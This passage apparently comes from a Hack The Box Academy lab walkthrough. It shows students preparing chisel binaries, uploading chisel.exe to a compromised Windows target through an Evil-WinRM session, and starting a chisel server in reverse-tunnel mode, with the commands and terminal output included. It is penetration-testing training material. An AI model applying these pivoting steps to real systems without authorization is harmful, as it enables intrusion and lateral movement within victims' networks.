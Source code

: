 Once downloaded, students will proceed to unzip them using `gunzip`:

Code: shell

```shell
gunzip chisel_1.9.1_*
```

```
┌─[htb-ac-8414@htb-qm41uzp2hn]─[~]
└──╼ $ gunzip chisel_1.9.1_*
```

Subsequently, students will proceed to rename the `chisel_1.9.1_windows_amd64` to `chisel.exe`, then change the permissions over `chisel_1.9.1_linux_amd64` to be executable:

Code: shell

```shell
mv chisel_1.9.1_windows_amd64 chisel.exe
chmod +x chisel_1.9.1_linux_amd64
```

```
┌─[htb-ac-8414@htb-qm41uzp2hn]─[~]
└──╼ $ mv chisel_1.9.1_windows_amd64 chisel.exe

┌─[htb-ac-8414@htb-qm41uzp2hn]─[~]
└──╼ $ chmod +x chisel_1.9.1_linux_amd64
```

Students will use the `upload` functionality of `Evil-WinRM` to upload the `chisel.exe` executable onto the target:

Code: shell

```shell
upload chisel.exe
```

```
*Evil-WinRM* PS C:\Users\Frewdy\Documents> upload chisel.exe
                                        
Info: Uploading /home/htb-ac-8414/chisel.exe to C:\Users\Frewdy\Documents\chisel.exe
                                        
Data: 12008104 bytes of 12008104 bytes copied
                                        
Info: Upload successful!
```

Students will return to their workstations, they can terminate the Python HTTP server, and they will proceed to start `chisel` in `server` mode:

Code: shell

```shell
./chisel_1.9.1_linux_amd64 server --reverse 
```

```
┌─[eu-academy-5]─[10.10.14.221]─[htb-ac-8414@htb-1qi0mc04vu]─[~]
└──╼ [★]$ ./chisel_1.9.1_linux_amd64 server --reverse

2024/07/11 07:18:24 server: Reverse tunnelling enabled
2024/07/11 07:18:24 server: Fingerprint VDA2XZJTiqs3QRPtx7qBVak5SWzIMiWm53XD3b+AKF0=
2024/07/11 07:18:24 server: Listening on http://0.0.0.0:8080
```

